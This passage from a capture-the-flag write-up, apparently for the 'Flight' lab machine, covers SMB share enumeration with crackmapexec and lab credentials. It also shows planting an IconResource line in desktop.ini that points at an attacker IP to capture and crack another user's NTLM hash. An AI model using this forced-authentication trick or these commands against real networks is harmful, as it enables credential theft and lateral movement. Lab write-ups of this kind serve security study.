 ![Share permissions as S.Moon](Images/s.moon_smb.png)

We could try using `impacket-smbexec` since we've got a writable share but you'll see that it doesn't work in this case. It's happening because **SMB** server is configured to block uploading files with certain extensions (The file name `smbexec` uses to get RCE ends with `.bat`)

So, we'll start enumerating all the shares that we can read as *S.Moon*. We can use `spider_plus` module of `crackmapexec` to get a JSON file about all the files in all the shares that we can read. 

```crackmapexec
crackmapexec smb -u svc_apache -p 'S@Ss!K@*t13' -d 'flight.htb' 10.10.11.187 -M spider_plus
```
The output JSON file will be in `/tmp/cme_spider_plus` directory. We can use textutils like `jq` to parse the JSON file - 
```bash
cat /tmp/cme_spider_plus/10.10.11.187.json | jq ' . | map_values(keys)'
```

With this, we'll get names of the files present in **SMB** shares. Among them, I found something interesting called `desktop.ini`. We could use `desktop.ini` to steal **NTLM** hash of a user. Since we have a writable share, it looks like that's what we need to do next.


# Stealing NTLM hash with desktop.ini
There's a tool called [ntlm_theft](https://github.com/Greenwolf/ntlm_theft) that generates files that can be used to steal the NTLM hash of another user. Hacktricks also has a [page](https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds) about this topic. I won't be using `ntlm_theft` since I already have `desktop.ini` downloaded from `Users` share. We just need to append `IconResource=\\10.10.16.16\dir\file` to `desktop.ini` file. After uploading it to **SMB** server, we should capture the hash of another *C.Bum*

![Captured hash of C.Bum](Images/c.bum_hash.png)


# Writable SMB Shares for *C.Bum*
After cracking the captured hash, we now could enumerate **SMB** as *C.Bum*.
```crackmapexec
crackmapexec smb -u c.bum -p 'Tikkycoll_431012284' -d 'flight.htb' 10.10.11.187 --shares
```
